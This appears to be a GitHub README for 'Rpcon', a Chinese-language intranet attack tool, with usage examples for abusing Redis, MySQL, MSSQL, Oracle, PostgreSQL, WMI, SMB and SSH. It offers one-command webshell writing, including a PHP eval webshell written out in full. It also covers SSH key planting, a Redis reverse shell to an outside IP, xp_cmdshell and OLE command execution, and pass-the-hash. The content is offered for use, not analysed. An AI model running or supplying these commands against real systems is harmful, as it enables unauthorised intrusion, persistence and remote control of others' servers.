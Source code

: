 # Rpcon

 内网远程连接利用工具，用于ssh smb 等常规服务Cancel changes

目前支持ssh远程连接执行命令

## 2023.3.24更新：

redis远程连接执行命令 redis一键写入webshell，一键反弹shell，一键写入公钥

## 2023.3.26更新：

mysql远程连接执行命令 mysql一键写入webshell 

## 2023.3.27更新：

wmiexec无回显命令执行

## 2023.3.28更新：

优化某些代码

mssql模块

1：xcmdhshell 一键利用

2：OLE一键利用

## 2023.3.29更新：

oracle利用模块：shellrun函数执行系统命令

关于oracle模块报错

## 2023.3.30更新：

暂时移除oracle 使用可以从cmd/oracle.go import包中去除//再按照上文参考配置

Postgersql模块

1：一键写入webshell

2：命令执行

Smb模块
## 2023.4.4更新
解决linux打包问题



使用方法：

```
写入shell默认为<?php @eval($_POST[1]);?>
-p 指定端口
-f 指定文件  列入shell文件 
-pt 写入目录
-u 用户
-pw 密码
-d 指定数据库名称
-c 执行的命令或者数据库语法

mysql:
执行查询
rpcon -u root -pw root -m mysql -c "show databases;"
一键写shell：
rpcon  -u root -pw root -r mysl -f sss/1.php -pt /var/html/www 
一键读取配置
rpcon -u root -pw root -r mycg

redis:
执行查询
rpcon -u  -pw -m redis -c ""
一键写入公钥
rpcon -u -pw -r rk -pt rsa.xx
一键写入shell
rpcon -u -pw -r rs  -f 11.php -pt 目标目录
一键反弹shell  <有点鸡肋某些情况会反弹失败>
rpcon -u -pw -r rn   -ws 8.8.8.8 -wp 666


mssql
执行查询:
rpcon -u sa -pw sa -m mssql -c ""
读取配置：
rpcon -u sa -pw sa -r mssg 
执行命令
rpcon -u sa -pw sa -r cmdshell -c whoami
rpcon -u sa -pw sa -r oleshell -c whoami

oracle:
执行查询:
rpcon  -u sys -pw sys -m oracle -c ""
读取配置
rpcon -u sys -pw sys -r org 
执行命令
rpcon -u sys -pw sys -r ors -c whoami

postgresql
执行查询：
rpcon -u postgres -pw 123456 -m postgres -c ""
读取配置
rpcon -u postgres -pw 123456 -r pocfg 
写入shell
rpcon -u postgres -pw 123456 -r poshell -f 11.php -pt /var/html/www
执行命令
rpcon -u postgres -pw 123456 -r pocde -c whoami


wmicexec:
rpcon -u administratros -pw 123456 -m wmi -c 
hash：
rpcon -u administrators -hash aaaaaaaaa -m wmi -c 

smb:
rpcon -u administrators -pw 123456 -f 文件 -pt 目录
hash:
rpcon -u administrators -hash aaaaaaaaa -f 文件 -pt 目录
```

